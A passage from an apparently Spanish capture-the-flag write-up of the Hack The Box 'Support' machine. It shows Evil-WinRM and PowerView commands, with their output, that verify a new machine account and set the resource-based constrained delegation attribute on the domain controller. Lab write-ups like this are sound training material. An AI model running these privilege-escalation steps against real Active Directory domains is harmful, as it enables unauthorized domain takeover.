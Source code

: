 * Podemos comprobar que se creó la nueva cuenta con el módulo de **PowerView**:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer SERVICEA
pwdlastset             : 9/28/2024 8:48:14 PM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=SERVICEA,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : SERVICEA
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5601
samaccountname         : SERVICEA$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
accountexpires         : NEVER
countrycode            : 0
whenchanged            : 9/29/2024 3:48:14 AM
instancetype           : 4
usncreated             : 86137
objectguid             : 7e63ed00-3cf5-42d5-8659-6013ef633519
lastlogon              : 12/31/1600 4:00:00 PM
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=support,DC=htb
dscorepropagationdata  : 1/1/1601 12:00:00 AM
serviceprincipalname   : {RestrictedKrbHost/SERVICEA, HOST/SERVICEA, RestrictedKrbHost/SERVICEA.support.htb, HOST/SERVICEA.support.htb}
ms-ds-creatorsid       : {1, 5, 0, 0...}
badpwdcount            : 0
cn                     : SERVICEA
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
whencreated            : 9/29/2024 3:48:14 AM
primarygroupid         : 515
iscriticalsystemobject : False
usnchanged             : 86139
dnshostname            : SERVICEA.support.htb
```

* Seguimos los pasos que nos indica **HackTricks**:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
Con el último comando, comprobamos que todo funcionó correctamente.
